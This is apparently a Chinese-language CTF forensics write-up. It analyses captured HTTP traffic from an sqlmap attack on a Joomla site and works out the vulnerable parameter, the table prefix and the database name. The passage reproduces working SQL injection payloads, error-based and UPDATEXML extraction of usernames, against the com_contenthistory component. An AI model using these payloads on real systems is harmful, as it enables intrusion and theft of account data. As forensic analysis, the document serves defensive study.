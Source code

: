 ```
GET /index.php?option=com_contenthistory&amp;view=history&amp;list[ordering]=&amp;item_id=1&amp;type_id=1&amp;list[select]=(*'+(SELECT 'ZoHc' WHERE 1078=1078 OR (SELECT 2511 FROM(SELECT COUNT(*),CONCAT(0x71626a6b71,(SELECT (ELT(2511=2511,1))),0x716a717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))+' HTTP/1.1
Accept-Encoding: gzip,deflate
Host: 202.1.1.1:8000
Accept: */*
User-Agent: sqlmap/1.1.3.2#dev (http://sqlmap.org)
Connection: close
Cache-Control: no-cache
```

不难看出，黑客利用sqlmap在对目标站点进行不断的sql注入试探<br>
可以确定无误，受害主机的网卡IP地址即为192.168.1.8<br>
而注入的参数也可以清晰的看见，为`list[select]`<br>
再根据回显内容

```
Status: 500 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '*'+(SELECT 'ZoHc' WHERE 1078=1078 OR (SELECT 2511 FROM(SELECT COUNT(*),CONCAT(0x' at line 1 SQL=SELECT (*'+(SELECT 'ZoHc' WHERE 1078=1078 OR (SELECT 2511 FROM(SELECT COUNT(*),CONCAT(0x71626a6b71,(SELECT (ELT(2511=2511,1))),0x716a717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))+',uc.name AS editor FROM `ajtuc_ucm_history` AS h LEFT JOIN ajtuc_users AS uc ON uc.id = h.editor_user_id WHERE `h`.`ucm_item_id` = 1 AND `h`.`ucm_type_id` = 1 ORDER BY `h`.`save_date`

```

目标站点数据库抛出的错误，可以清晰的看见

```
FROM `ajtuc_ucm_history` AS h LEFT JOIN ajtuc_users
```

不难确定，目标站点的数据库表名前缀为`ajtuc_`<br>
接着为了确定受害主机网站数据库的名字，我又进行了一次过滤

```
(ip.addr == 192.168.1.8 || ip.addr == 202.1.1.2) &amp;&amp; http
```

此时挑选最后一次注入的payload进行解码

```
GET /index.php?option=com_contenthistory&amp;view=history&amp;list[ordering]=&amp;item_id=1&amp;type_id=1&amp;list[select]=(UPDATEXML(6315,CONCAT(0x2e,0x71717a7671,(SELECT MID((IFNULL(CAST(username AS CHAR),0x20)),1,22) FROM joomla.ajtuc_users ORDER BY id LIMIT 0,1),0x71716b6b71),4235))
```

可以清楚的看到

```
FROM joomla.ajtuc_users
```

可以马上确定，数据库名为joomla<br>
为快速寻找后台管理员密码,我进行了如下筛选
